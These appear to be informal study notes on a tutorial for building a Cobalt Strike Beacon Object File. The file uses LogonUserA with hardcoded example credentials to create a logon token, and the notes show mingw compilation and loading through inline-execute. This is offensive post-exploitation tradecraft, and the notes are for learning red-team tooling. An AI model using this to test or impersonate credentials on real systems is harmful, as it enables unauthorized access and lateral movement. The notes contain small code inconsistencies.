

documentation
Tutorial from our boy Raphael Mudge
Tutorial to make a BOF for modifying the make_token
What it normal does
1. take your token
2. create a copy of it
3. populate it with a different set of creds
4. uses win32 api, logonuser
We are gonna use the same API, instead of copying the current token we are going to create a token for a specified username and password- creating a logon user command [using creds]
Name it whatever, in this cas luser
**making work area**
> mkdir luser
> vim luser.c
===================================================
#include <windows.h> //
#include "beacon.h" // this file will be in the zip
//set up entry point for BOF
void go(char * buff, int len) {
}
============================================================- so now we've imported the basic, essential packages and created the entry point
- we now need to lookup the winapi for LogonUserA function
- we can just copy that bad boi on in there
===================================================
#include <windows.h> //
#include "beacon.h" // this file will be in the zip
//set up entry point for BOF
void go(char * buff, int len) {- BOOL LogonUserA(
- LPCSTR lpszUsername,
- LPCSTR lpszDomain,
- LPCSTR lpszPassword,
- DWORD dwLogonType,
- DWORD dwLogonProvider,
- PHANDLE phToken
- );
- HANDLE hToken; // we are just declaring a token handle to point to
- // we are gonna call the API call with hardcoded info for testing purposes
- // fill in the list we pasted from the API documentation above
- // username, domain, password, LogonType, LogonProvider, Pointer to Token Handle
- if (LogonUserA("Administrator", "CORP", "password1234!", LOGON_32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &hToken)) {
- BeaconPrintf(CALLBACK_OUTPUT, "Success!") // printf DOES NOTwork in BOFs, you must use BeaconPrintf(callback parameter, printed Text)
- CloseHandle(hToken); // we are gonna close the handle in order to prevent handle leaks
- }
- else {
- BeaconPrintf(CALLBACK_ERROR, "Failure: %d", GetLastError()); // try the creds, print fail if it doesnt work and why
- }
-
}
============================================================- BOF is a compiled C program
- it is not passed to the linker
- cobalt strike and its beacon payload will act as both the linkerand the loaderfor BOF
- For this to work we need to follow the conventions for calling win32 APIs
- we need to call the api so that the library nameANDthe function nameare available to our cobalt strike instance
- --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
- So our BOF will redeclare the new LogonUserA, close handle, and GetLastError
- in a way that includes the library information
- Here is the way to do that,
- head on over to the shared folder its in
- > cd usr/share/mingw-w64/include
- use grep to try and find the API call
- > grep -r "LogonUserA" .
- out> WINADVAPI WINBOOL WINAPI LogonUserA (LPCSTR lpszUsername,LPCSTR lpszDomain, LPCSTR lpszPassword, DWORD dwLogonType, DWORD dwLogonProvider, PHANDLE phToken);
- 
- Now that we have that we add it to the top of the file
- we also need to grab "GetLastError" and "CloseHandle"
- >
-
out> WINBASEAPI WINBOOL WINAPI GetLastError (VOID);
out> WINBASEAPI WINBOOL WINAPI CloseHandle (HANDLE hObject);
===================================================
#include <windows.h>
#include "beacon.h"
// notice theLIB$, we are refrencing the library
// findmoreinformationbelow, but we need to do this for all API calls too
WINADVAPI WINBOOL WINAPIADVAPI32$LogonUserA (LPCSTR lpszUsername,LPCSTR lpszDomain, LPCSTR lpszPassword, DWORD dwLogonType, DWORD dwLogonProvider, PHANDLE phToken);
WINBASEAPI WINBOOL WINAPI KERNEL32$GetLastError (VOID);
WINBASEAPI DWORD WINAPI KERNEL32$CloseHandle (HANDLE hObject);
//set up entry point for BOF
void go(char * buff, int len) {
- BOOL LogonUserA( //we
- LPCSTR lpszUsername, // can
- LPCSTR lpszDomain, // delete
- LPCSTR lpszPassword, // all
- DWORD dwLogonType, // of
- DWORD dwLogonProvider, // this
- PHANDLE phToken // since we are now refrencing libraries
- );
- HANDLE hToken;
-
- if (ADVAPI32$LogonUserA("Administrator", "CORP", "password1234!", LOGON_32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &hToken)) {
- BeaconPrintf(CALLBACK_OUTPUT, "Success!") // printf DOES NOTwork in BOFs, you must use BeaconPrintf(callback parameter, printed Text)
- KERNEL32$CloseHandle(hToken); // we are gonna close the handle in order to prevent handle leaks
- }
- else {
- BeaconPrintf(CALLBACK_ERROR, "Failure: %d", KERNEL32$GetLastError()); // try the creds, print fail if it doesnt work and why
- }
-
}
============================================================
MORE INFORMATION LOL
So in the first example we called ADVAPI32$- when looking at the win32 api page, we can wee the library listed is the same one we called/ refrenced

and then we did the next...


------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
We can now attempt to compile this script and use it within cobalt strike- > x86_64-w64-mingw32-gcc -c luser.c luser.x64.o
***shouldnt have any errors or warnings***
- We can take a look at the file
- >x86_64-w64-mingw32-objdump -s luser.64.o
- >x86_64-w64-mingw32-objdump -r luser.64.o
- -s to see sections -r to see relocation table/records


- relocation table - places in the text section that need to be patched with the right kind of pointer/ offset to different parts of the sections and where the live in memory
- refrences to our data, are refrences in our compiled code to the strings in our object file.
- - cobalt goes through and will update the refrences
- - nothing needs to be contiguious.
- meaning the code and the strings do not need to be in the same regions of memory
- Providing the KERNEL32$ allows for the system to easily access it

Import BOF as <luser.x64.o>
- beacon> inline-execute /path/to/luser.x64.o

- If you failed
- beacon> run net helpmsg <errorcode>

next step in tutorial